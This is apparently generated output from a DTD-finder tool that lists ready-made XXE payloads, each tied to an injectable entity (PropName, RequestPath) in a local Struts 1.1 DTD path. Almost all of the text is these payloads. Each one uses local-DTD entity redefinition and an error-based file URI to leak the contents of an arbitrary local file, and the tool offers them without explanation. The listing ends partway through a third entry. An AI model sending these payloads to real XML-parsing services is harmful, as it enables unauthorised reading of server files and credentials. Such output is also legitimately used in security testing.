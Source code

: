  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd`

**Injectable entity:** `PropName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd">

    <!ENTITY % PropName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd`

**Injectable entity:** `RequestPath`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd">

    <!ENTITY % RequestPath '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd`
